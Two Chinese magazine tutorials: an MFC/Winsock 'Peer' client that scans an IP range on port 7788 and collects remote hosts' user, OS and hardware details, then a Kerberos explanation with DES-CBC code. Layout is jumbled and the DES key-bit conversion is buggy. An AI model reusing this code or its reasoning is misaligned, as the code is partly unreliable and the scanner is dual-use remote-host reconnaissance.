PeerBindSocket()、PeerConnectSocket()、PeerListenSocket()、PeerShutDownSocket()、PeerCloseSocket()分别调用了bind()、connect()、listen()、shutdown()以及closesocket()函数。

接下来我们重点分析用于发送数据的PeerSendData()函数。在该函数中，首先声明函数中用到的几个变量。

```cpp
WSABUF DataBuf;
WSAEVENT hEvents[2];
WSAOVERLAPPED SendOverLapp;
DWORD flag;
```

第1行中WSABUF结构包含两个成员变量，一个表示缓冲区的长度，另外一个表示缓冲区的指针，用于保存传输的数据。因为本文涉及的程序是基于重叠I/O事件通知模型的，所以第2行声明了WSAEVENT结构数组，用于指定事件对象。对于重叠I/O事件通知模型，还需要一个WSAOVERLAPPED结构将套接字与事件对象连接起来，第3行声明了一个WSAOVERLAPPED结构变量。第4行声明的flag用于发送数据时的标志。

接下来，在PeerSendData()函数中继续编写：

```cpp
hEvents[0] = hExitEvent;
hEvents[1] = hSendEvent;
DataBuf.buf = data;
DataBuf.len = len;
memset(&SendOverLapp, 0, sizeof(WSAOVERLAPPED));
SendOverLapp.hEvent = hSendEvent;
flag = 0;
```

在第1～2行中，对WSAEVENT结构数组中的元素进行赋值，第1个元素赋值为hExitEvent事件对象，第2个元素赋值为hSendEvent事件对象。其中，hExitEvent事件对象在StdAfx.h头文件中声明，并在PeerClient.cpp执行文件中生成，而hSendEvent事件对象则是作为PeerSendData()函数的参数传递到函数内部，在本文涉及的程序中就是通过判断hSendEvent事件对象的状态来判断传输数据是否完成。第3～4行定义了需要传输数据的缓冲区大小以及该缓冲区的指针，data和len都是PeerSendData()函数的参数。第5行调用memset()函数对声明的WSAOVERLAPPED结构变量SendOverLapp进行初始化（填充0）。第6行将SendOverLapp的成员变量hEvent赋值为hSendEvent，实现了SendOverLapp与事件对象的关联。接下来如果实现了SendOverLapp与套接字的关联，则套接字就与事件对象完成了关联，那么就可以根据事件对象的状态判断套接字上的操作是否完成。第7行将用于发送数据时的标志设置为0。

```cpp
int ret;
if ((ret = WSASend(socket, &DataBuf, 1, retlen,
                   flag, &SendOverLapp, NULL)) == 0)
{
    return TRUE;
}
```

接下来通过WSASend()函数，我们实现了SendOverLapp与套接字的关联。WSASend()函数的第1个参数表示套接字标识符，socket是PeerSendData()函数的参数；第2个参数是WSABUF结构指针，DataBuf包含了要发送的数据缓冲区大小以及缓冲区指针；第3个参数确定了WSABUF结构的个数，1表示在发送过程中使用一个WSABUF结构；第4个参数表示如果I/O操作马上完成，发送数据字节数的指针，retlen是PeerSendData()函数的参数；第5个参数表示调用该函数的方式；第6个参数是WSAOVERLAPPED结构指针，SendOverLapp与事件对象hSendEvent相关联，通过将第6个参数设置为&SendOverLapp，实际上就完成了事件对象与套接字的关联；第7个参数表示完成例程的指针，因为本程序使用的是事件通知，因此把该参数设置为NULL。变量ret保存了WSASend()函数的返回值，如果重叠操作立即完成，则函数返回值为0，发送数据字节数保存在第4个参数retlen中。如果重叠操作没有立即完成，函数返回值为SOCKET_ERROR，其错误代码是WSA_IO_PENDING。

接下来我们分析重叠操作没有立即完成的情况。

```cpp
if ((ret == SOCKET_ERROR) &&
    (WSAGetLastError() == WSA_IO_PENDING))
{
    DWORD EventCaused =
        WSAWaitForMultipleEvents(2, hEvents,
                                 FALSE, time, FALSE);
    WSAResetEvent(hSendEvent);
    if (EventCaused == WSA_WAIT_FAILED ||
        EventCaused == WAIT_OBJECT_0)
    {
        return FALSE;
    }
    flag = 0;
    return (WSAGetOverlappedResult(socket,
                                   &SendOverLapp, retlen, FALSE, &flag)) ? TRUE : FALSE;
}
```

第1～2行指定了等待对方接收的情况。第4～5行调用了WSAWaitForMultipleEvents()函数，等待一个或所有事件对象状态变为“已传信”，或者函数调用超时时返回。WSAWaitForMultipleEvents()函数的第1个参数表示事件对象个数，2表示等待2个事件对象，分别是hExitEvent和hSendEvent；第2个参数表示事件对象句柄排列的指针，hEvents是前面定义的WSAEVENT结构数组；第3个参数表示函数的等待类型，如果该参数值为TRUE，则函数必须在事件对象句柄排列中所有元素状态变为“已传信”后才能返回；如果该参数值为FALSE，则函数在事件对象句柄排列中任一元素状态变为“已传信”后就可以返回。本程序将第3个参数设置为FALSE，在hExitEvent和hSendEvent两个事件对象中任一对象状态变为“已传信”，函数就可以返回；第4个参数指定函数等待时间，time是PeerSendData()函数参数；第5个参数表示系统进行I/O完成例程排队时函数是否返回，如果该参数值设置为TRUE，则表示使用完成例程模型并且该函数需要返回；如果是FALSE，则表示不使用完成例程模型。因为本程序使用的是I/O重叠的事件通知模型，因此第5个参数设置为FALSE。

当WSAWaitForMultipleEvents()函数返回时，WSAEVENT结构数组hEvents中的某一元素状态为“已传信”。为了保证重复使用，则在WSAWaitForMultipleEvents()函数返回后，应调用WSAResetEvent()函数将hSendEvent状态重新设置为“未传信”，如第6行所示。第7～10行对WSAWaitForMultipleEvents()函数返回值进行判断，如果返回值是WSA_WAIT_FAILED，则说明函数执行失败；如果返回值是WAIT_OBJECT_0，则表示在函数第4个参数指定的等待时间内，触发了hExitEvent事件。如果出现以上两种情况，程序则直接返回。

第13～14行调用WSAGetOverlappedResult()函数判断在套接字上I/O重叠操作的结果。WSAGetOverlappedResult()函数的第1个参数表示指定套接字；第2个参数是WSAOVERLAPPED结构指针；第3个参数是一个32位变量指针，该变量表示实际发送字节数；第4个参数是一个标志，该标志表示函数是否等待重叠操作完成。如果将该参数设置成TRUE，则表示WSAGetOverlappedResult()函数直到重叠操作完成才返回；如果将该参数设置成FALSE，而重叠操作仍在等待状态，函数则返回FALSE，返回错误代码是WSA_IO_INCOMPLETE。第5个参数是32位变量指针，表示完成端口事件的标志，这里设置为&flag，flag初值为0。第13～14行代码表示：如果WSAGetOverlappedResult()返回TRUE，则I/O重叠操作完成，PeerSendData()返回TRUE；如果返回FALSE，则PeerSendData()返回FALSE。

接下来我们来看一下PeerSendDataS()函数。该函数中调用了PeerSendData()函数，作用是保证所有数据都发送给服务端。

```cpp
while (left > 0)
{
    if (!PeerSendData(socket, &data[idx], left, &thisret, hSendEvent, time))
    {
        *retlen = 0;
        return FALSE;
    }
    left -= thisret;
    idx += thisret;
    if (thisret == 0)
    {
        oflag++;
        if (oflag > 5)
            break;
    }
}
return (idx == len) ? TRUE : FALSE;
```

在第1行中，left表示剩余数据。第3～8行调用PeerSendData()函数发送数据。若套接字重叠I/O操作失败，PeerSendData()返回FALSE，因此PeerSendDataS()返回FALSE。第9行中thisret是PeerSendData()第4个参数，表示每次发送的数据量；left表示本次发送前剩余的数据量。

在第10行中，idx表示已发送的数据量；第11～16行对每次发送的数据量进行判断。oflag表示发送数据量为0的次数，如果累计5次发送数据为0，则说明数据已全部发送给服务端，使用break跳出while循环。第17行中，如果idx等于len，则说明客户端将要发送的数据全部发送给了服务端，PeerSendDataS()返回TRUE，否则返回FALSE。

PeerRecvData()函数、PeerRecvDataS()函数分别与PeerSendData()函数、PeerSendDataS()函数类似，这里不再赘述。

##### 4. 开始搜索服务端

搜索服务端的动作是在CSearchHostDlg类，也就是搜索IP的对话框中完成的。

### (1) OnSearch()函数

对“开始搜索”按钮添加名为OnSearch()的消息响应函数。也就是说，当用户单击“开始搜索”按钮后，程序会调用OnSearch()函数。

因为程序会在客户端主界面与CPeerHostTreeView类关联的窗格中显示搜索到的服务端，所以首先需要声明一个CPeerHostTreeView类对象。

- **m_pTreeHost的声明**：将CPeerHostTreeView类对象m_pTreeHost声明为CMainFrame类的公共成员变量`CPeerHostTreeView* m_pTreeHost;`，并在头文件中包含`PeerHostTreeView.h`，之后在SearchHostDlg.cpp的OnSearch()中使用。
- **对显示服务端的窗格进行初始化**：在OnSearch()函数中使用m_pTreeHost之前，先包含声明该变量的头文件`MainFrm.h`，然后在OnSearch()函数中进行初始化代码。

```cpp
CMainFrame* wMainFrame = (CMainFrame*)
    AfxGetApp()->GetMainWnd();
CTreeCtrl& tree = wMainFrame->m_pTreeHost->GetTreeCtrl();
if (!tree.DeleteAllItems())
{
    ASSERT(FALSE);
}
```

其中，第1～2行调用了CWinThread类的成员函数GetMainWnd()得到客户端窗口指针。第3行利用得到的窗口指针调用CTreeView类成员函数GetTreeCtrl()，得到与客户端主界面显示服务端窗格关联的CTreeCtrl类引用。第4～7行通过tree调用CTreeCtrl类成员函数DeleteAllItems()，清除客户端主界面用于显示服务端窗格中的所有项，完成初始化操作。

### ③ 处理IP地址

完成对显示服务端窗格的初始化之后，接下来对用户输入的要搜索服务端IP地址范围进行处理：

```cpp
CString addrstart, addrend;
m_HostAddrFirst.GetWindowText(addrstart);
m_HostAddrSecond.GetWindowText(addrend);
if (addrstart > addrend)
{
    AfxMessageBox("第二个地址必须大于第一个地址!");
    return;
}
ULONG lStart = ntohl(inet_addr(addrstart));
ULONG lEnd = ntohl(inet_addr(addrend));
ULONG lSub = lEnd - lStart + 1;
```

在第1～3行中，m_HostAddrFirst与m_HostAddrSecond分别是对话框中“起始IP”与“结束IP”控件的成员变量，通过这两个成员变量调用GetWindowText()函数将用户输入的IP地址保存在addrstart与addrend两个CString类型变量中。第4～8行对用户输入的IP地址进行判断，如果用户输入的起始IP地址大于结束IP地址，则通过对话框对用户进行提示。第9～10行对用户输入的IP地址格式进行转换，其中inet_addr()函数将点分格式的IP地址（例如127.0.0.1）转换为适合IN_ADDR结构的无符号整型格式IP地址；ntohl()函数将网络字节序的长整型转换成主机字节序的长整型。第11行的作用是得到要搜索的服务端个数。

### （4）PARAM结构的定义与赋值

在SearchHostDlg.h头文件中定义PARAM结构：

```cpp
struct PARAM
{
    DWORD now;
    int count;
    PVOID dlg;
};
```

其中now表示要搜索服务端的起始IP，count表示搜索服务端个数，dlg是一个任意类型指针。在OnSearch()函数中，dlg表示搜索IP地址的对话框。

在SearchHostDlg.cpp执行文件的OnSearch()函数中：

```cpp
HTREEITEM item = tree.InsertItem("Peer服务器", 0, 0);
paa.dlg = (void*)this;
paa.count = lSub;
paa.now = lStart;
```

第1行通过tree调用CTreeCtrl类成员函数InsertItem()，在客户端显示服务端的窗格中插入名为“Peer服务器”的项。InsertItem()函数的第1个参数表示插入项内容，第2个参数表示该项的“父项”，0表示插入的项是控件中的最高项；第3个参数表示插入控件后该项的句柄，程序中没有用到该句柄，因此把第3个参数设置为0。第2～4行对自定义结构PARAM对象paa中各成员变量进行赋值。接下来自定义一个搜索函数，并使用多线程函数调用这个搜索函数。

### （1）搜索函数SearchFun()

在SearchHostDlg.cpp执行文件中，对SearchFun()函数进行编写。

① 参数获取以及事件对象创建

```cpp
UINT WINAPI SearchFun(PVOID param)
{
    PARAM npa;
    memcpy(&npa, param, sizeof(PARAM));
    WSAEVENT event = WSACreateEvent();
    ......
}
```

在第1行中，自定义结构PARAM作为SearchFun()函数参数。第2～4行声明了一个PARAM结构对象npa，并将SearchFun()函数参数内容复制到该对象中。

参数保存在 `npa` 中。第5行调用 `WSACreateEvent()` 函数创建新的事件对象。之后使用前面提到的方法得到客户端显示服务端的窗格控件的引用。

```cpp
1. CSearchHostDlg* dlg = (CSearchHostDlg*)npa.dlg;
2. CMainFrame* mframe = (CMainFrame*)AfxGetApp()->GetMainWnd();
3. GetMainWnd();
4. CTreeCtrl& tree = mframe->m_pTreeHost->GetTreeCtrl();
5. HTREEITEM item = tree.GetRootItem();
```

其中，1～4行得到了客户端显示服务端的窗格控件的引用。第5行通过该引用，调用 `CTreeCtrl` 类的成员函数 `GetRootItem()` 得到树状视图控件的“根项”。

从前面的分析我们已经知道，要在客户端显示服务端的窗格中显示服务端的处理器、内存以及硬盘等信息，需要自定义一个结构来描述这些信息。另外，我们是通过客户端向服务端发送指令的方式得到这些信息的，所以还需要自定义一个描述指令的结构。

## ② 描述服务端信息和指令的结构

在 `SearchHostDlg.h` 头文件中声明一个用于描述服务端信息的结构：

```cpp
typedef struct tagSystemInit {
    char computer[32];
    char user[32];
    char os[256];
    char processor[256];
    char mem[128];
    char disk[128];
} SYSTEMINIT;
```

其中，`computer` 表示计算机名，`user` 表示用户名，`os` 表示操作系统，`processor` 表示处理器，`mem` 表示物理内存，`disk` 表示硬盘。

在 `SearchHostDlg.h` 头文件继续定义一个用于描述指令的结构：

```cpp
typedef struct tagCommand {
    int CommandID;
    DWORD DataSize;
} COMMAND;
```

其中，`CommandID` 表示具体的指令，`DataSize` 表示数据的大小。

## ③ 结构对象的定义

在 `SearchHostDlg.cpp` 文件的 `SearchFun()` 函数中继续：

```cpp
SYSTEMINIT si;
COMMAND com;
```

## ④ 套接字收发数据时间间隔的设置

```cpp
1. for(int i = 0; i < npa.count; i++) {
2.     PeerCreateSocket(&sock, PEER_STREAM);
3.     int TimeOut = 6000;
4.     if(setsockopt(sock, SOL_SOCKET, SO_SNDTIMEO, (char*)&TimeOut, sizeof(TimeOut)) == SOCKET_ERROR) {
5.         closesocket(sock);
6.         continue;
7.     }
8.     if(setsockopt(sock, SOL_SOCKET, SO_RCVTIMEO, (char*)&TimeOut, sizeof(TimeOut)) == SOCKET_ERROR) {
9.         closesocket(sock);
10.        continue;
11.    }
12.    ...
13. }
```

其中，第1行使用 `for` 循环搜索服务端；第2行调用 `PeerCreateSocket()` 创建套接字。第3行定义发送或接收等待时间。第4～7行调用 `setsockopt()` 设置发送超时；第8～11行调用 `setsockopt()` 设置接收超时。`TimeOut = 6000`，即约6秒。设置成功返回0，否则返回 `SOCKET_ERROR`。

## ⑤ 连接服务端

在 `SearchFun()` 函数中，调用 `PeerConnectSocket()` 函数连接服务端。

```cpp
1. add = npa.now + i;
2. add = htonl(add);
3. in_addr ina;
4. memset(&ina, 0, sizeof(ina));
5. ina.S_un.S_addr = add;
6. strcpy(address, inet_ntoa(ina));
7. PeerConnectSocket(sock, address, 7788);
```

第2行中的 `htonl()` 函数是将一个长整型的主机字节序变量转换为网络字节序，与前面提到的 `ntohl()` 过程相反。第6行中的 `inet_ntoa()` 函数将 `IN_ADDR` 结构变量转换为点分 IP 地址格式（如 `127.0.0.1`），与 `inet_addr()` 过程相反。在 `PeerConnectSocket()` 中，第1个参数表示非阻塞模式套接字，第2个参数是服务端 IP 地址，第3个参数是端口。下面使用 `select` 模型判断套接字何时可写。

## ⑥ select 模型

`select` 模型核心是利用 `select()` 函数实现 I/O 管理。Windows Sockets 程序可以判断套接字上是否有数据，或能否向套接字写入数据。在 `SearchFun()` 中，需要判断能否向该套接字写入数据。

```cpp
1. struct timeval timeout;
2. fd_set r;
3. FD_ZERO(&r);
4. FD_SET(sock, &r);
5. timeout.tv_sec = 2;
6. timeout.tv_usec = 0;
7. ret = select(0, 0, &r, 0, &timeout);
```

其中第1行定义 `timeval` 结构用于 `select()` 等待时间。第2行 `fd_set` 为管理多个套接字的结构。第3～4行 `FD_ZERO` 和 `FD_SET` 分别用于清空集合与加入套接字。第5～6行设置等待时间2秒。第7行调用 `select()` 判断集合中套接字是否可写。在 `select()` 中，第1参数可忽略；第2参数可读集合指针置0；第3参数可写集合为 `r`；第4参数错误集合置0；第5参数超时为2秒。若2秒内变为可写，返回可写套接字数量；若超时返回0；错误返回 `SOCKET_ERROR`。

如果在非阻塞模式套接字集合 `r` 中有套接字变为可读，`select()` 返回值变为可读状态套接字个数；如果在2秒内没有套接字状态变为可读，返回值为0；若出错返回 `SOCKET_ERROR`。如果集合中有套接字状态变为可写，即可利用 I/O 重叠事件通知模型进行发送与接收。

## ⑦ I/O 重叠事件通知模型

在 `SearchFun()` 函数中有如下代码：

```cpp
1. if(ret > 0)
2. {
3.     unsigned long ull = 0;
4.     ret = ioctlsocket(sock, FIONBIO, (unsigned long*)&ull);
5.     if(ret == SOCKET_ERROR)
6.     {
7.         closesocket(sock);
8.         continue;
9.     }
10.    item2 = tree.InsertItem(address, 1, 1, item);
11.    memset(&com, 0, sizeof(com));
12.    com.CommandID = PEER_SYSTEM_INIT;
13.    com.DataSize = 0;
14.    .....
15. }
```

第1行 `if` 判断 `select()` 返回值，若大于0说明有套接字可写。第4行调用 `ioctlsocket()` 将套接字由非阻塞改为阻塞（连接阶段非阻塞，收发阶段阻塞）。第10行在客户端树状视图中插入服务端 IP。第11～13行配置客户端发送消息，其中 `PEER_SYSTEM_INIT` 指令表示请求服务端向客户端发送主机信息（在 `SearchHostDlg.h` 中定义）。接下来由客户端发送该命令并接收服务端主机信息。

```cpp
1. if(PeerSendDataS(sock, (char*)&com, sizeof(com), &ret, event) && ret == sizeof(com))
2. {
3.     if(PeerRecvDataS(sock, (char*)&si, sizeof(si), &ret, event) && ret == sizeof(si))
4.     {
5.         tree.InsertItem(si.computer, 2, 2, item2);
6.         tree.InsertItem(si.user, 3, 3, item2);
7.         tree.InsertItem(si.os, 4, 4, item2);
8.         tree.InsertItem(si.processor, 5, 5, item2);
9.         tree.InsertItem(si.mem, 6, 6, item2);
10.        tree.InsertItem(si.disk, 7, 7, item2);
11.    }
12. }
13. tree.RedrawWindow();
```

```cpp
#include <process.h>
typedef unsigned (__stdcall *PTHREAD_START)(void*);
#define BeginThread(pfnStartAddr,pvParam,pdwThreadID) \
((HANDLE)(_beginthreadex((void*)NULL, \
0, \
(PTHREAD_START)(pfnStartAddr), \
(void*)(pvParam), \
0, \
(unsigned*)(pdwThreadID)) \
))
```

其中，第1～2行调用了 `PeerSocket.h` 头文件中声明的 `PeerSendDataS()` 函数向服务端发送指令，其中 `com` 是要发送的指令，`ret` 表示总共发送的数据量，`event` 是与发送动作相关联的事件对象。如果服务端准备好接收来自客户端的数据，也就是套接字处于可写状态时，事件对象 `event` 通知客户端发送数据。在 `if` 语句中，如果总共发送的数据量 `ret` 等于指令结构 `com` 的大小，则说明数据全部发送完毕。第3～4行中调用 `PeerSocket.h` 头文件中声明的 `PeerRecvDataS()` 函数接收来自服务端发送的信息，函数接收到的信息保存在 `si` 中。第5～10行在客户端界面中显示接收到服务端的信息。第13行通过 `tree` 调用 `CWnd` 类的成员函数 `RedrawWindow()` 重新显示树状视图控件中的项。

在 `SearchFun()` 函数的最后，调用 `closesocket()` 函数与 `WSACloseEvent()` 函数关闭相应的套接字和事件对象：

```cpp
closesocket(sock);
WSACloseEvent(event);
```

## （3）SearchFun() 函数的多线程调用

在 `OnSearch()` 函数中，使用 `BeginThread()` 函数对 `SearchFun()` 函数进行多线程调用：

```cpp
if((hThread = BeginThread(SearchFun, &paa, &ThreadID)) <= 0)
{
    MessageBox("创建搜索进程失败!");
    if(tree.DeleteAllItems())
    {
        ASSERT(FALSE);
    }
    return;
}
```

之后为使用 `BeginThread()` 函数做一些必要的工作，首先在 `StdAfx.h` 中添加如下代码。

其中，`process.h` 头文件声明了 `BeginThread()` 函数，`PTHREAD_START` 是一个类型，指向一个参数为 `void*` 的函数，该函数返回一个 `unsigned`。之后，在 VC 界面工具栏中选择“工程”，在其下拉菜单下选择“设置”，选择“工程设置”对话框中的“General”选项卡，在“Microsoft Foundation Classes”中选择“Use MFC in a Static Library”；之后选择“工程设置”对话框中的“C / C++”选项卡，在“分类”中选择“Code Generation”，最后在“Using run-time library”中选择“Debug Multithreaded”，点击“确认”键，再重新构建 `PeerClient` 工程即可。

##### 5. 树状列表控件中图标的插入

如图2所示，客户端主界面用于显示服务端的树状列表控件中每一项都用相应的图标来表示，因此，需要将树状列表控件与图像列表变量相关联。首先在 `PeerHostTreeView.h` 头文件中声明一个公共的成员变量 `CImageList m_imagelist;`，之后在工程的类向导中为 `CPeerHostTreeView` 类添加对 `WM_CREATE` 消息的响应函数 `OnCreate()`。在 `OnCreate()` 函数中：

```cpp
1. m_imagelist.Create(16,16,ILC_MASK,6,1);
2. m_imagelist.Add(AfxGetApp()->LoadIcon(IDI_HOST_SERVER));
3. ......
4. CTreeCtrl &tree = this->GetTreeCtrl();
5. tree.SetImageList(&m_imagelist, TVSIL_NORMAL);
```

其中，第1～3行创建了一个图像列表对象，并向该对象中导入图标。第4行获得客户端中树状视图控件的引用。第5行将图像列表与视图控件关联起来。通过以上代码，我们就实现了在客户端主界面显示服务端的视图控件中用不同的图标表示不同项的功能。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、协议、Kerberos

## Kerberos安全协议解析与编程实现

文/图 小小彬

看了近期的黑防，发现谈论安全协议的文章很少，基本上都是一些 Hook 各种 API 或者底层驱动方面的技术文章。本文介绍一种安全认证协议——Kerberos 安全协议的基本原理，并通过编程实现向大家展示如何借助编码设计，简单实现此协议。本文的读者可以是信息安全科班出身的学生，但又未涉及 Kerberos，或者对安全协议感兴趣的任何读者，只要具有一定的安全编程知识即可。

其实安全协议的研究很早就存在，只是以前国内的研究者比较少，也没有开设信息安全专业的相关课程，如密码学等课程。直到网络信息高速发展的今天，大量的信息被非法盗取、恶意篡改，木马、病毒像幽灵般穿梭在网络中时，大家才开始紧密地关注网络安全技术领域，各大高校也都开始纷纷设立信息安全专业。从信息通信专家 Shannon 发表《保密系统的信息理论》文章开始，基本上就掀起了信息通信保密学的研究热潮。OK，不多说了，下面直接切入正题。

Kerberos 的整体设计方案是完全基于协议可信任的第三方认证服务，客户端和服务器均信任 Kerberos 认证服务器的认证。现在我们来介绍它的基本原理。

一个 Kerberos 环境包含一台 Kerberos 服务器、若干个客户端以及一些应用服务器。Kerberos 服务器将客户端用户的用户名及口令存放在它的数据库中，应用服务器和所有的客户都必须在初始化阶段到 Kerberos 服务器中注册。其基本框架如图1所示。

### Kerberos安全认证协议基本框架

Kerberos 安全认证协议是由 MIT 的 Athena 计划的认证服务而开发的，并广泛地应用于开放式的网络环境中，为通信双方提供很好的双向认证服务，在客户端与服务器之间构筑了一个安全桥梁。要求用户对每个向服务器提交的服务请求及其权限，必须预先经过第三方认证中心服务器的认证后，才被允许执行。换句话说，

### Kerberos双向认证过程与逆向推理分析

- 1. **Client→AS**：客户端向认证服务器发送认证请求 `KRB_AS_REQ`，其内容是 `{c, Tgs, TS1}`。其中，`c` 表示客户标识；`Tgs` 是 TGS 服务器标识；`TS1` 用于时间戳校验，以判断来自 Client 端的消息是否过期。
- 2. **AS→Client**：向客户端发送认证响应 `KRB_AS_REP`，其内容为 `{K(c,Tgs), TS2, lifetime, Tickets_Tgs}Kc`。`K(c,Tgs)` 是由 AS 随机产生的一个密钥，用于 Client 与 TGS 共享的一个会话私钥。`TS2` 是票据发放的时间戳；`Tickets_Tgs` 是 AS 发给 Client 的用于访问 TGS 的票据授权票据。有了此票据后，用户就可以向 TGS 申请任意的应用服务器，而不需要每次重复输入 Client 端的登录密钥。它定义为：`Tickets_Tgs={K(c,tgs),c,c_mac,Tgs,TS2,lifetime2}Ktgs`。其中 `Tickets_Tgs` 已经采用 TGS 的私钥加密，这部分其实在 Kerberos V5 版已经作了修改，因为 `Tickets_Tgs` 已经采用 TGS 的私钥加密，故没有必要采用客户端的私钥再次加密。
- 3. **C→TGS**：Client 在第2步中获得 AS 认证，并取得票据授权票据后，Client 即可向服务授权服务器（TGS）申请服务票据。发送的消息定义为 `KRB_TGS_REQ={AppServ, Tickets_Tgs, Authen_info}`，其中 `AppServ` 是用户期望访问的服务器，`Authen_info` 是发送的一条认证消息，用于确认发送票据 `Tickets_Tgs` 的用户合法，定义为：`Authen_info={c,c_mac,TS3}K(c,tgs)`。

这里我们可以假设，若不发送 `Authen_info` 消息，则当 Cracker 截获了 `Tickets_Tgs` 票据，同时向 TGS 发送此票据，那么 TGS 只针对此 `Tickets_Tgs` 票据是无法判断此票据是否真正来自合法客户端。而验证器消息 `Authen_info` 则正好解决了此问题，当 TGS 收到 Client 发来的 Req 请求服务授权票据时，TGS 首先会采用自己的私钥 `Ktgs` 解密 `Tickets_Tgs`，获取 AS 为 Client 和 TGS 双方随机产生的共享密钥 `K(c,tgs)`，然后利用此密钥解密 `Authen_info` 消息，提取出客户端用户名及其 MAC 地址，将这些同 `Tickets_Tgs` 包含的 `c` 和 `c_mac` 进行比较，若一致，则断定此次 Req 来自合法客户端。

- 4. **TGS→C**：当 TGS 验证 Req 来自合法 Client 时，则构造消息 `KRB_TGS_REP={K(c,s),AppServ,TS4,S_Tickets}K(c,tgs)` 发送到 Client 端。其中 `K(c,s)` 是 TGS 随机生成的密钥，为 Client 端和 AppServ 共享的会话密钥。`S_Tickets` 为服务授权票据，定义为 `S_Tickets={K(c,s),c,c_mac,AppServ,TS4,lifetime}Ks`，采用 AppServ 的私钥 `Ks` 加密此票据。看到这里，仔细阅读的读者可能会想，为什么 Kerberos 协议会介入一个应用服务器，当客户端送来合法的票据后，直接由 TGS 转入到相应的 AS 处理不就可以了吗？

大家应该都看过《无间道》这部影片吧。警方中有犯罪团伙的卧底，同样犯罪分子中也有警方的卧底。给一个场景：若你一直对公司领导忽视你的才能，长期不被提拔而感到懊恼，想跳槽到其他公司去，现需要打印一份求职简历，请求打印服务器资源，向 TGS 发送 Req，但 TGS 却直接将此 Req 转到了老总办公室的打印机上打印，这显然不是你想要的。其实这就是安全协议中经常涉及的双方认证协议，如何设计一种安全协议，使得双方都能在远端彼此信任。

Client 端在给 TGS 发送 Req 时，并不急于将需要服务的内容传送给 TGS，而是等待 TGS 正常解密此消息，并产生 `KRB_TGS_REP` 应答消息返回给 Client 端，让 Client 端确认 TGS 为合法服务器。

- 5. **C→AppServ**：当客户端收到 TGS 传送来的服务授权票据后，Client 端直接将此票据和验证器发送给应用服务器 AppServ 即可。`KRB_APPSERV_REQ={S_Tickets, Authent_infor}Kc`，这里的 `Authent_infor` 消息需要采用会话密钥 `K(c,s)` 加密。
- 6. **AppServ→C**：应用服务器再次发送确认消息给 Client 端，告知对方它期待的服务器已收到它的服务请求，此时 Client 端与应用服务器即实现了可信的双方认证。

讲了这么多，若仍然存在对此协议不太清楚的读者，可以参考我的博客 http://blog.csdn.net/shandyw，里面转载了 MIT 为了帮助更多的读者很好地理解 Kerberos 协议设计的一篇精彩对话，看完以后相信你会对这个协议的设计有进一步的认识。OK，下面我们来编码设计实现此协议吧。

## Kerberos协议简单编程实现

从前面设计的加密算法大家应该可以推测出来，采用的肯定是私钥加密算法，即对称加密算法，因为协议中涉及 Client 和 TGS、AppServ 共享会话密钥的情形，故采用的是对称加密算法。这里我们采用 CBC 模式的 DES 加密算法。为了保证算法的安全强度性，大家也可以采用……triple-DES或者AES加密算法。现简要地给出CBC模式下的DES加密算法：

```cpp
void DES::Des(int mode, unsigned char input[],
unsigned char output[]) // 加密函数入口
{
    int i;
    IPConvert1(input, Xmatrix); // 初始转换，打乱顺序
    Left=&Xmatrix[0]; // 将此模块分为两部分
    Right=&Xmatrix[32];
    for(i=1;i<=16;i++) { // 16轮循环
        BackupRight(RightT,Right);
        // 将明文矩阵后半部分备份
        if(mode==0) // 加密与解密只是子结构顺序不一样
            ProductTransform(Right,SubKey[i-1],R_F);
        else if(mode==1)
            ProductTransform(Right,SubKey[16-i],R_F);

        // 第一轮明文的前半部分与F函数的结果做异或运算
        Xor32(Right,Left,R_F);
        CopyRtoL(Left,RightT); // 将明文矩阵第一轮的后半部分复制到前半部分
    }
    ConnectLeftRight(M_connect,Right,Left);
    // 将两部分比特块合在一起
    IPConvert2(M_connect,output);
    // 末尾转换，还原顺序
}

void CKerberos_servDlg::DES_CBC_Encrypt(char *theKey,char *theInputFile,char *theOutputFile, int fsize)
// 对文件进行加密
{
    unsigned char in[64],out[64],key[64];
    // 输入64比特明文，输出64比特密文
    unsigned char tOut,ch[8],ck; // tOut用于向输出文件写数据，ch数组用于读取每64比特
    int i,j; // i,j作循环之用，to8用于判断数据块有没有8字节，即64比特
    unsigned long int block=0,last=0;
    // last文件余数，block文件整块数
    unsigned int theInFilePos=0,theOutFilePos=0;
    // 输入输出文件在内存中的读写指针位置
    DES a_des;
    for(i=0;i<8;i++) {
        // 从8字节的密钥转化为64比特key
        ck=theKey[i];
        for(j=7;j>-1;j--) {
            key[8*i+j]=ck,ck>>=1;
        }
    }

    a_des.GetSubKeys(key);
}
```

```cpp
// 获取16轮迭代的每轮子密钥
block = fsize;
last = block % 8;
block /= 8;

// 这里我做了一个处理，将文件大小存放到了密文的前5字节处。
// 为了方便文件的解密操作，将每8字节的块暂存到前4字节中，
// 对8字节取模的余数存放到第5字节处
((unsigned long int*)theOutputFile)[theOutFilePos]=block; theOutFilePos+=4;
theOutputFile[theOutFilePos++]=last;
SetIV(out); // 设置初始向量
while(block>0){
    for(i=0;i<8;i++) // 读取64比特
        ch[i]=theInputFile[theInFilePos++];
    for(i=0;i<8;i++){ // 分解64比特位，存储至in数组中
        ck=ch[i];
        for(j=7;j>-1;j--){
            in[8*i+j]=ck&1,ck>>=1;
        }
    }

    Xor_CBC(in,out); // CBC
    a_des.Des(0, in, out); // 按mode模式对in加密或解密处理，其结果保存在out中
    for(i=0;i<8;i++){
        // 解读out，将结果写到输出文件中去
        tOut=(out[8*i])*128+(out[8*i+1])*64+(out[8*i+2])*32+
             (out[8*i+3])*16+(out[8*i+4])*8+(out[8*i+5])*4+(out[8*i+6])*2+out[8*i+7];
        theOutputFile[theOutFilePos++]=tOut;
    }
    block--;
}

if(last!=0) { // 存在数据块不足64比特
    for(i=0;i<last;i++)
        ch[i]=theInputFile[theInFilePos++];
    for(i=0;i<last;i++){
        ck=ch[i];
        for(j=7;j>-1;j--){
            in[8*i+j]=ck&1,ck>>=1;
        }
    }

    Xor_CBC(in,out);
    a_des.Des(0,in,out);
    for(i=0;i<8;i++){
        tOut=(out[8*i])*128+(out[8*i+1])*64+(out[8*i+2])*32+
             (out[8*i+3])*16+(out[8*i+4])*8+(out[8*i+5])*4+(out[8*i+6])*2+out[8*i+7];
        theOutputFile[theOutFilePos++]=tOut;
    }
}
```

对DES的更深入理解可以参考本文所附的基于CBC模式的DES加密算法C语言实现版本，这里就不再多说了。要编程实现Kerberos协议，肯定要涉及Socket编程，我们可以采用面向连接的TCP协议实现。

首先，Client端构造KRB_AS_REQ消息发送给AS端。

```cpp
